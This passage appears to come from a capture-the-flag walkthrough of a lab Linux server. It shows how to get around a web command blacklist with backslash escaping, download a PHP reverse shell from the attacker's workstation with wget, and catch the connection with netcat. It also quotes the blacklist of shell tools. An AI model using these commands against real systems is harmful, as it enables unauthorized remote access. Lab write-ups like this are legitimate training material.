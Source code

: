 One command to run is `sudo -l` which will show you if the current user is able to run anything as `root`. We find that account `apaar` can run `/home/apaar/.helpline.sh` as sudo.

We can't seem to do `cat` or `less` to read files, so we can read parts of file with something like: `grep -v "zZz" /home/apaar/.helpline.sh`. This tells grep to show me all of the lines of the file that *DON'T* have the character string "zZz", which is most-likely all of the lines of the file.

Using that same `grep` technique, we can look at the `index.php` for `/secret/` and see the actual blacklist of commands we cannot run:

```php
$blacklist = array('nc', 'python', 'bash','php','perl','rm','cat','head','tail','python3','more','less','sh','ls'); 
```

Knowing that this is looking for an exact string, we can bypass this telling bash we want to treat the next character as a "string" literal, by using a backslash. For example: `c\at ./index.php` is technically equivalent to `cat ./index.php`, but for the first one, we were just saying that the "a" of "cat" is a string-literal (which is already was).

How do we get in, then?

### Unprivileged Access

There are several interesting aspects to this server.

#### PHP Reverse Shell

By using the technique above, we see that our default user `www-data` does not have write access anywhere, we can always write to the `/tmp/` folder. We also know from the `$blacklist` above that PHP is installed on the current server. We can straight-up just run `php somefile.php` from the command-line, even without a web server.

Putting this together, we can:

1. Go [grab a PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and download that to our workstation, say to `~/Downloads/`. Rename it to `revshell.php`.
1. Edit that file and modify the IP address to be your workstation IP, and the port to be `9000`.
1. Navigate into `~/Downloads/` and run `python3 -m http.server 8000` - this is a temporary web server from where our victim machine can download the reverse shell.
1. From the `/secret/` website on the victim machine, run: `wget -O /tmp/revshell.php http://<WorkstationIP>:8000/revshell.php` - this will download the configured reverse shell from our Python3 web server that is hosting files from our `~/Downloads/` folder.
1. Now that `/tmp/revshell.php` exists on the target machine, and we know how to bypass the filtering, we first need to listen for the incoming reverse shell. So, on your workstation, run: `nc -lvnp 9000` (note that we configured the reverse shell in step 1 to point to port 9000)
1. Finally, from `/secret/` web page run the command: `p\hp /tmp/revshell.php`. You should see a connecting session back on your netcat terminal! You now have a primitive shell connection, running as the `www-data` user.

#### MySQL Direct Access

Either via the shell above, or by using the `/secret/` web page to run commands, you might view the file `/var/www/files/index.php`, which is a login page. However, it references `/var/www/files/account.php`.
